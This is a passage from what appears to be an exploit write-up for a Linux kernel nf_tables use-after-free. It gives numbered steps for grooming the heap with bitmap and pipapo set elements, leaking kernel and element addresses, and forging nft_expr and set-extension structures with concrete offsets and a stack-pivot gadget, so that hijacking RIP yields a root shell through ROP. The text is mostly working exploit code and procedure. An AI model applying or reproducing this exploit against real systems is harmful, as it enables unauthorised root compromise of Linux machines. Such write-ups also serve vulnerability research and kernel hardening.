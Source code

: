 - 4. Create some bitmap elements to ensure that when reading udata out of bounds, you can read an element pointer(because the head of `nft_bitmap_elem` will save a doubly linked list):
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
  };
  ```
- 5. Get `element E`. We will get the address of `nft_last_ops` and the address and the key of an `element G` of bitmap set.
- 6. Delete the `element G` we get in step 5.
- 7. Create some bitmap elements with our ROP gadget to get the heap of the `element G` back.
- 8. Delete the `element F`
- 9. Create an `element H` of a pipapo set to get the heap of the `element E` back(just like step 3). This time we hijack RIP by forging NFT_SET_EXT_EXPRESSIONS and nft_expr:
  ```c
    *(uint64_t *)&key[12] = 0x3000000000007800;//NFT_SET_EXT_KEY=0x78, NFT_SET_EXT_USERDATA=0x30
    *(uint64_t *)&key[20] = 0x5058;//NFT_SET_EXT_EXPRESSIONS=0x58, NFT_SET_EXT_OBJREF=0x50

    *(uint64_t *)&pad[0x17] = 0x10;//setelem->expr's size
    *(uint64_t *)&pad[0x1f] = ops_addr+0x20;//setelem->expr[0]->ops
    *(uint64_t *)&pad[0x27] = kernel_off + 0xffffffff8195e9f0;//pop rsp; ret  stack migration second
    *(uint64_t *)&pad[0x2f] = ops_addr+0x20;
    *(uint64_t *)&pad[0x37] = 0x70; //fake key
  ```
- 10. Get `element E`. We will hijack RIP, perform stack migration, and finally jump to the ROP gadget to get the root shell:
  ```c
  	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
  ```

